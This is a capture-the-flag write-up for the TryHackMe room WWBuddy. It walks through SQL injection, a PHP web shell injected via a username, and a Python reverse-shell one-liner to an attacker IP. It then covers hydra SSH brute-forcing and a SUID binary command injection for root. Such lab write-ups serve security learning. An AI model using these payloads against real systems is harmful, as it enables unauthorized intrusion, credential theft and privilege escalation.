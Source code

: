 # Write up for WWBuddy on <a href='https://tryhackme.com/room/wwbuddy'>TryHackMe</a>

### Website Flag

The webpage gives us a login page, I tried for sql injection which didn't work. I registered an account and looked around I could only see **WWBuddy** user which looks like a bot.
There is a message saying that we can send message to any user that we can find on the webpage. I couldn't find anything interesting so I ran [ffuf](https://github.com/ffuf/ffuf).
<br></br><img src='./images/Screenshot (109).png' /><br></br>

We can see some interesting paths, if we visit the **/admin** we can get a messsage that we cannot access the service. If you visit the api you won't get anything interesting too.
Now we will try for sql injection, change the username.
<br></br><img src='./images/Screenshot (110).png' /><br></br>
*Note: Initially I tried **' or 1=1;-- -** but that gave an error*

Now let's reset password, I just used **password** as the password. After resetting the password logout and login with
#### WWBuddy:{The password you set}
After logging in as WWBuddy we can see that that are two more users,
<br></br><img src='./images/Screenshot (111).png' /><br></br>

Let's login as Roberto and Henry. We can see that they are talking the default password for ssh is the user's **date of birth** and there is a new employe at the company.
If we visit **/admin** as **Henry** we can see that it gives us a log of all the users that tried to access **/admin**.

See the source code and we get the first flag

### User Flag

It's a php file so let's try a php code in username and see if we can get a result.
Set username to `<?php echo exec($_GET['cmd']) ?>` from the sql injection that we had earlier or change username of any other user who is not Henry since Henry is admin, his username won't be reflected in the php file. Now visit the **/admin** adn then logout and visit **/admin** as Henry. We can see that the php code is not visible and now let's run the **i** command
<br></br><img src='./images/Screenshot (112).png' /><br></br>
Now we have code execution let's get a shell with that,
I used a python shell `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{YOUR IP}",{PORT NO}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`, url encode this and send it in the **cmd** parameter and we get a shell as **www-data**.
I enumerted the machine manually and found */var/www/html/config.php* which had the db creds but they weren't useful since all the passwords of every user was set to same and there was nothing useful in other tables too. So I ran linpeas and found **/var/log/mysql/general.log** which has logs of the mysql commands that were ran on the machine. If you look at the log you will see that Roberto entered his username and password in the username field. Get the password and we can get an ssh connection with those creds. The flag is in the **importante.txt**

### Root Flag
The text in the file is in some other language so we need to translate that to english with google translate.
<br></br><img src='./images/Screenshot (113).png' /><br></br>

The **importante.txt** file was created on Jul 27, 2020 and she is about to turn 26 so her birth month is gonna be **August** and birth year is **1994**,*(2020 - 26, we don't do 2020 - 25 because she turned 25 in 2019)*. Now we just need to guess the day of the month. The DOB format would be **mm/dd/yyyy**
Create a wordlist with **crunch**
#### crunch 10 10 08/%%/1994 -o pass.txt
After the wordlist is created we can use **hydra** to brute force
#### hydra -f -l jenny -P pass.txt ssh://{MACHINE IP}
We will get the password with this and login as jenny with it.
I ran linpeas as jenny and found something interesting
<br></br><img src='./images/Screenshot (114).png' /><br></br>

If you run the binary as robert you just get a message saying that you are already a developer but if you execute that binary as jenny we can see that we get a shell and if you run **id** command we can see that we are part of the developer group. Let's look at what the binary is doing. I copied the binary to my machine with scp
#### scp robert@{MACHINE IP}:/bin/authenticate .
*Enter the password when it prompts for it*
<br>
Open the binary in **ghidra** and we can see something very interesting.
<br></br><img src='./images/Screenshot (115).png' /><br></br>
**USER** env is taken and and **uid** is set to 0 which is **root**. We can see that the **USER** is concatenated to a variable and that is being executed with **system** as **root**. Now we can set **USER** env to to command and we can execute that as root.
#### export USER=';cp /bin/bash /tmp/b' (*There is a character limit*)
#### /bin/authenticate
Exit the shell and check the /tmp, there would be **a** file. Now change the permission
#### export USER=';chmod +xs /tmp/b'
#### /bin/authenticate
Exit and now run
#### /tmp/a -p
This will give a root shell
